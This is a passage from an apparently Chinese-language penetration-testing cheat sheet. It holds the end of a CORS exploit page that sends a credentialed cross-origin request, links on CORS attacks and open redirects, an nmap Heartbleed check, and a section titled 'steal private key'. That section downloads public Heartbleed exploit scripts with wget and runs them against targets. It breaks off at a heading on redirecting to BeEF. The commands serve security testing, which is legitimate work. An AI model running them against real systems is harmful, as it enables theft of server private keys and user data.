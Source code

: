 ```text
  req.withCredentials = true;
  req.send();
}
      </script>
  </body>
</html>
```

资源:

```text
https://www.securityninja.io/understanding-cross-origin-resource-sharing-cors/
http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html
https://www.youtube.com/watch?v=wgkj4ZgxI4c
http://ejj.io/misconfigured-cors/
https://www.youtube.com/watch?v=lg31RYYG-T4
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
https://w3c.github.io/webappsec-cors-for-developers/#cors
http://gerionsecurity.com/2013/11/cors-attack-scenarios/
Using CORS misconfiguration to steal a CSRF Token:
https://yassineaboukir.com/blog/security-impact-of-a-misconfigured-cors-implementation/
```

### 测试心脏出血漏洞

```text
nmap -d --script ssl-heartbleed --script-args vulns.showall -sV -p <port> <target ip> --script-trace -oA heartbleed-%y%m%d
```

#### 偷私钥

```text
wget https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py
echo "<target>:<port>" > targets.txt
python heartbleed.py -f targets.txt -v -e
```

```text
wget https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
python heartbleed-poc.py <target> -p <target port> | less
```

[https://gist.github.com/bonsaiviking/10402038](https://gist.github.com/bonsaiviking/10402038) [https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py](https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py)

### 重定向

[http://breenmachine.blogspot.com/2013/01/abusing-open-redirects-to-bypass-xss.html](http://breenmachine.blogspot.com/2013/01/abusing-open-redirects-to-bypass-xss.html)

重定向到beef：
